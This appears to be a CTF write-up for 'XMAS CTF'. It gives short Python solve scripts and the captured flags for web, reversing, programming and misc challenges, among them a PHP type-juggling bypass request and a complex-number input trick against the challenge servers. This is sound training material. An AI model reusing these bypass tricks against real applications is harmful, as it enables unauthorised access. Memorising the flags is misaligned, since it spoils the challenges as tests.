

## XMAS CTF

## web
## PHP Master
> another one of *those* challenges

#### Read about php type juggling to solve this challenge. Was pretty neat to learn about. 
```python
import requests

#: BOTH ARGUMENTS ARE TREATED AS STRINGS
url = 'http://challs.xmas.htsp.ro:3000/'
r = requests.get(url + "?param1= 1&param2=01")
print(r.content)

#:X-MAS{s0_php_m4ny_skillz-69acb43810ed4c42}
```

## Santa's Consolation
#### reverse the javascript crackme.
```python
import base64
target = b"redacted for readability"

target = base64.b64decode(target)[::-1][12:]
target = base64.b64decode(target)
target = ''.join([chr(x) for x in [int(x) for x in target.split(b'|')]])
target = target.replace("%5B", "").replace("%5D", "")
target = target.replace('a', '4').replace('e', '3').replace('i', '1').replace('t', '7').replace('z', '_')
print(target)

#: X-MAS{s4n74_w1sh3s_y0u_cr4c1un_f3r1c17}
```

## rev
## thou shall pass
#### decryption functions disguised as library functions. reverse each one and bruteforce against the hardcoded values they are checked against.

```python
data = open('data.txt', 'r').readlines()
byte_data = []

for d in data:
	byte_data.append(int('0x' + d.split()[1], 16))

flag = ''
count = 0
for byte in byte_data:

	for i in range(33,127):

		test = i
		for _ in range(3):
			test = test * 2 | test >> 7
			test = test & 0xff
		test = test ^ count + 5

		for _ in range(2):

			curr = test
			test >>= 1
			test = test | ((curr & 1) << 7)

		if test ^ 10 == byte:
			flag += chr(i)

	count += 1

print(flag)
#: X-MAS{N0is__g0_g3t_th3_points}
```

## programming
## biglow
#### simple sorting
```python
from pwn import *
context.timeout = None
p = remote("challs.xmas.htsp.ro", 6051)

for i in range(50):
	print(p.recvuntil('number: '))
	print(p.recvuntil('\n'))

	arr = sorted([int(x) for x in p.recvuntil('\n').split(' = ')[1].replace('[', '').replace(']\n', '').split(', ')])
	k1 = int(p.recvuntil('\n').split(' = ')[1].replace('\n', ''))
	k2 = int(p.recvuntil('\n').split(' = ')[1].replace('\n', ''))
	p.sendline('; '.join([', '.join([str(x) for x in arr[:k1]]), ', '.join([str(x) for x in arr[::-1][:k2]])]))

print(p.recv())
#: X-MAS{th15_i5_4_h34p_pr0bl3m_bu7_17'5_n0t_4_pwn_ch41l}
```

## misc
## whispers of ascalon
#### just google about guild wars old languages. 

## python math bank
#### The challenge description hints at python being used, and playing around with the server reveals that it only accepts integer input. When we try to input 1e-7, the server accepts it as it is a valid integer format in python. It becomes clear that we need to input a large complex number to get the flag, simply providing `99j` as input will do so. 
